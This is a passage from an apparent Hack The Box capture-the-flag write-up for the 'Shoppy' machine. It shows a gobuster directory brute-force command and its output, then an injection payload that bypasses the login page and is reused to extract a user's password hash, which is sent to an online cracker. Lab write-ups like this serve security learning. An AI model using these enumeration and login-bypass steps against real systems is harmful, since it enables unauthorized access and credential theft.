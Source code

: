 ## Directory bruteforcing

```sh
gobuster dir -b 404,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 500 -u http://shoppy.htb
```

### Results:
```
                                                                                                       
┌──(root㉿kali/machines/shoppy-HTB)
[
└─# gobuster dir -b 404,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 500 -u http://shoppy.htb
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 500
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,301
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/16 00:46:53 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]
Progress: 3984 / 220561 (1.81%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2022/12/16 00:46:58 Finished
===============================================================
```

We got **login and admin page on shoppy.htb**
<img width="417" alt="shoppy-login-80" src="https://user-images.githubusercontent.com/95465072/208038273-00971ffe-e7f7-4b79-9614-84350516e642.png">


Let's try sqli here!

username : ```admin'||'1==1```
password : ```random```

**Boom!! we logged in**

try out again the same sqli here!

```admin'||'1==1```

<img width="520" alt="sqli-after-admin" src="https://user-images.githubusercontent.com/95465072/208038413-8b3e3f82-e8f5-4f4f-b8d5-9a3264871104.png">


Download the transcirpt!

great! we got **josh** user's password hash

<img width="461" alt="pass-user-afteradmin-download" src="https://user-images.githubusercontent.com/95465072/208038531-1e1741e0-9ce4-438d-9de1-db802d67c5e6.png">

[crack this hash here](https://crackstation.net/)

```